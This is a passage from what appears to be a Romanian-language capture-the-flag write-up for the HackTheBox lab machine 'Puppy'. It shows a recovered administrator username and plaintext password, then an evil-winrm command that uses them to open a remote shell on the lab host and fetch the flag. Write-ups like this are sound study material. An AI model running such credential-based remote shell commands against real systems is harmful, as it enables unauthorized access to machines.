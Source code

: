 Fig. 41

Bingo. 

**Username    : steph.cooper_adm
Unknown     : FivethChipOnItsWay2025!**

1. Am sa presupun ca ce ne mai ramane de facut este sa facem o sesiune evil-winrm si sa accesam flagul. 

*evil-winrm -i 10.10.11.70 -u 'PUPPY.HTB\steph.cooper_adm' -p 'FivethChipOnItsWay2025!'* 

![Fig. 42](/writeups/puppy/image%2041.png)

Fig. 42